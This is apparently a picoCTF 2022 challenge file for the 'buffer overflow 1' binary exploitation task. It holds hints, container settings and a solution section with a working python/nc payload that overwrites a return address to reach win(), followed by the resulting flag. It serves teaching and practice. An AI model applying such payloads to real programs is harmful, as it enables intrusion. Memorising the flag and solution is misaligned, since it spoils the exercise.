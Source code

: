 # buffer overflow 1

- Namespace: picoctf/picoctf2022
- ID: buffer-overflow-1
- Type: custom
- Category: Binary Exploitation
- Points: 200
- Templatable: yes

## Description

Control the return address

## Details

Now we're cooking! You can overflow the buffer and return to the flag function
in the {{url_for("vuln", "program")}}.

You can view source {{url_for("vuln.c", "here")}}. And connect with it using
`nc {{server("overflow1")}} {{port("overflow1")}}`

## Hints
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

## Learning Objective

Understanding buffer overflows and  modification of return pointer.

## Tags


## Attributes

- author: Sanjay C / Palash Oswal
- organization: picoCTF
- event: picoCTF 2022

## Challenge Options

```yaml
cpus: 0.5
memory: 128m
pidslimit: 20
ulimits:
  - nofile=128:128
diskquota: 64m
init: true
```

## How to solve?

Overflow the buffer and modify the return pointer to address of win()
```
> python -c "print 'A'*44 + '\xf6\x91\x04\x08'" | nc localhost 49155
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_97711b56}
```

## Resources

- https://en.wikipedia.org/wiki/Stack_buffer_overflow
- http://www.cis.syr.edu/~wedu/Teaching/CompSec/LectureNotes_New/Buffer_Overflow.pdf

